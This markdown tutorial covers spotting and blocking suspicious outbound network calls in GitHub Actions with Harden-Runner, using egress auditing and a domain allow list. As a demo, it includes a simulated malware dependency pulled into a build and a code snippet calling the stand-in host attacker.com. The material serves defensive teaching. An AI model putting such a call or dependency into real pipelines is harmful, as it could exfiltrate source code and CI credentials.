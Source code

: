 # Filter Network Traffic

## Introduction
In this section we will see how to get insight about the outbound network calls and how to fix them / block them

## Example Action: 
Description:
An example GitHub Actions workflow that allows unrestricted outbound network access, potentially exposing source code and CI/CD credentials.

```
name: "Hosted: Network Monitoring with Harden-Runner"
on:
  workflow_dispatch:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: step-security/harden-runner@v2
        with:
          egress-policy: audit
      - uses: actions/checkout@v3
      - name: npm install
        run: |
          cd ./src/exfiltration-demo
          npm install
      - name: Publish to Registry
        uses: elgohr/Publish-Docker-Github-Action@v5
        with:
          name: ${{ github.repository }}/prod:latest
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          registry: ghcr.io
          workdir: ./src/exfiltration-demo
```

Here src/package.json has following dependencies
```
  "dependencies": {
    "@step-security/malware-simulator": "file:../malware-simulators/exfiltration-simulator"
  },
```

And the malware-simulator is making a call to `https://attacker.com/`
```
https
  .get("https://attacker.com/", (res) => {
    // handle response
  }
```

## Steps to Identify the Vulnerability:
### Review Outbound Network Access:
Use `step-security/harden-runner@v2` in your workflow and then Run the workflow.
```
- uses: step-security/harden-runner@v2
  with:
    egress-policy: audit
```

After the workflow completes, check out the build logs. In the Harden-Runner step, you will see a link to security insights and recommendations. When you open the link you will see dashboard like this. Here you can figure out all the outbound network calls and check if any of the domain looks suspicious (in below example attacker.com). 

<img width="1063" alt="Screenshot 2023-12-10 at 3 44 08 PM" src="https://github.com/learningcicd/github-actions-goat-test/assets/76629897/5b689ee6-6e0a-498d-b517-2ab9695a6853">

## Steps to Mitigate the Vulnerability:
### Block calls to domains 
Analyze the output of the Harden-Runner step, it will give you insight of which outbound calls are happening and in which step this calls are being made. You can either choose to replace such code for those steps or you can choose to block calls to all domains except the allowed domains which you configure. You can do allowed domains configuration by changing the `step-security/harden-runner@v2` step as follow
```
- name: Harden Runner
  uses: step-security/harden-runner@v2
  with:
    disable-sudo: true
    egress-policy: block
    allowed-endpoints: >
      ghcr.io:443
      github.com:443
      registry.npmjs.org:443
```

